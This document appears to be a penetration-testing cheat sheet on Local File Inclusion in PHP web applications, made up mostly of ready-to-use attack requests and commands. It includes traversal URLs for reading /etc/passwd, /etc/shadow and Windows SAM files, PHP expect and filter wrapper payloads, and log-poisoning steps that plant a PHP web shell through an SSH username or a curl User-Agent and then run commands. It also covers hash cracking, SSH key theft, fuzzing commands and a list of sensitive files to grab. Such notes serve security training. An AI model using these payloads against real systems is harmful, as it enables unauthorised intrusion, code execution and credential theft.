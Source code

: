 ## LFI Local File Inclusion
### Table of Contents
- [LFI Local File Inclusion](#lfi-local-file-inclusion)
  * [Table of Contents](#table-of-contents)
  * [Introduction](#introduction)
    + [Example:](#example-)
  * [Directory Traversal](#directory-traversal)
    + [Basic Linux Test](#basic-linux-test)
  * [PHP Wrappers](#php-wrappers)
    + [PHP Expect Wrapper](#php-expect-wrapper)
    + [PHP Filter Wrapper](#php-filter-wrapper)
  * [RCE via SSH](#rce-via-ssh)
  * [RCE via Apache logs](#rce-via-apache-logs)
  * [LFI to RCE via credentials files](#lfi-to-rce-via-credentials-files)
    + [Windows version](#windows-version)
    + [Linux version](#linux-version)
  * [Automated LFI with Wfuzz](#automated-lfi-with-wfuzz)
  * [Resources](#resources)
- [Requests to look out for](#requests-to-look-out-for)
  * [Fuzzing for subdomains](#fuzzing-for-subdomains)
  * [Files to grab if you get LFI](#files-to-grab-if-you-get-lfi)

### Introduction
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
- ![lfi](https://user-images.githubusercontent.com/75596877/138767265-ed9d8d7f-38f2-43cf-9622-8d4890f0664e.png)

#### Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
### Directory Traversal
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
#### Basic Linux Test
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP Filter Wrapper
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### RCE via SSH
- Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
````
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
````
- Then include the SSH log files inside the Web Application.
````
http://example.com/index.php?page=/var/log/auth.log&cmd=id
````
### RCE via Apache logs
- Poison the User-Agent in access logs:
````
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
````
- Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
- Then request the logs via the LFI and execute your command.
````
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
````
### LFI to RCE via credentials files
- This method require high privileges inside the application in order to read the sensitive files.
#### Windows version
- First extract sam and system files.
````
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
````
- Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.
#### Linux version
- First extract /etc/shadow files.
````
http://example.com/index.php?page=../../../../../../etc/shadow
````
- Then crack the hashes inside in order to login via SSH on the machine.
- Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. 
- If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
### Automated LFI with Wfuzz
- Automate LFI Tests
- Download the `traversal.txt` file in this folder (from PayloadAllTheThings)
- Test with `wfuzz`
````
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
````
- `grep 200` for the `Ok` status code
- `w` -> the wordlist
- `?name=FUZZ` -> the parameter you want to fuzz
  ### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo
## Requests to look out for
- ![alt text](https://miro.medium.com/max/2400/1*uMZmYUNcqjh4Rht11nGQDw.png)
- We notice the request with a `?` indicating possible LFI but we are not sure the paramater it wants
- Attempt to fuzz the parameter for command injection and file inclusion
- Wordlist to use:
````
traversal.txt
/usr/share/Seclists/Discovery/Web-Content/burp-parameter-names.txt
````
- Use FFuF, or wfuzz
### Fuzzing for subdomains 
````
ffuf -u http://vulnnet.thm -H "Host: FUZZ.vulnnet.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 5829
````
- ### Files to grab if you get LFI
````
/etc/passwd
/etc/shadow
/etc/hosts
CMS Config Files
/etc/apache2/.htpasswd
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
/usr/local/apache2/apache2.conf
C:\Program Files\Apache Software Foundation\Apache2.4\
/var/www/html/.htpasswd
````
















